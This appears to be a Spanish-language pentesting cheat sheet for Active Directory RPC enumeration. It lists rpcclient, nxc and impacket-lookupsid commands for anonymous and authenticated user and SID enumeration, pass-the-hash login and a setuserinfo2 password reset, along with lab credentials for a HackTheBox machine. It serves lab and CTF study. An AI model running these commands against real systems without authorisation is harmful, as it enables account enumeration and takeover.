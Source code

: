 ```yaml
---
title: 139,593 - RPC
layout: default
---
```


```bash
rpcclient -U '' IP -N

enumdomusers
```

```bash
rpcclient -U 'USER%PASS' IP
```

```bash
rpcclient -U 'USER%HASH' IP --pw-nt-hash
```

```bash
rpcclient -U '' IP -c "enumdomusers" -N | tr '[]' ' '| awk '{print $2}' > validUsers.txt
```

```bash
rpcclient -U 'USER%PASS' IP -c "enumdomusers" | tr '[]' ' '| awk '{print $2}' > validUsers.txt
```

# Por kerberos:

```bash
nxc smb DC.DOMAIN -u 'USER' -p 'PASSWORD' -k --users
```

```bash
nxc smb DC.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --users | awk '{print $5}' | grep -vE '\-|\[' > validUsers.txt
```

Lista de usuarios con descripción
```
querydispinfo
```

```BASH
setuserinfo2 USER 23 'PASS'
```

```bash
impacket-lookupsid anonymous@domain.htb -target-ip IP -no-pass
```

```bash
impacket-lookupsid anonymous@domain.htb -target-ip IP -no-pass | grep SidTypeUser | tr '\\' ' ' | awk '{print $3}'
```